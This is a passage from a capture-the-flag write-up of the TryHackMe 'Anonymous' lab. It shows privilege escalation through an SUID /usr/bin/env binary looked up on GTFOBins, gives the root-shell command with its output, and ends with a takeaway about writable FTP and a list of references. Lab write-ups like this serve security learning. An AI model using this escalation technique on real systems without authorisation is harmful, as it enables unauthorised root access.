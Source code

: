 From all the se files, first we can look for binaries that can be exploited using [GTFOBins](https://gtfobins.github.io/). And one such binary appears to be `/usr/bin/env`, 

We can go ahead and search for `env` at GTFOBins and run the command provided there to gain a root masam:

```bash
namelessone@anonymous:~$ /usr/bin/env /bin/sh -p
# whoami
root
# id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
# cd /root
# cat root.txt

```

 And there we get the root flag for this machine!

## Some Key Points to Take Away

1. If FTP is open, check if it is writeable also check files for which write permission is allowed.

## References

1. TryHackMe - Anonymous: https://tryhackme.com/room/anonymous
2. python-pty-shells: https://github.com/infodox/python-pty-shells
3. Creating Shells using python-pty-shells
4. GTFOBins: https://gtfobins.github.io

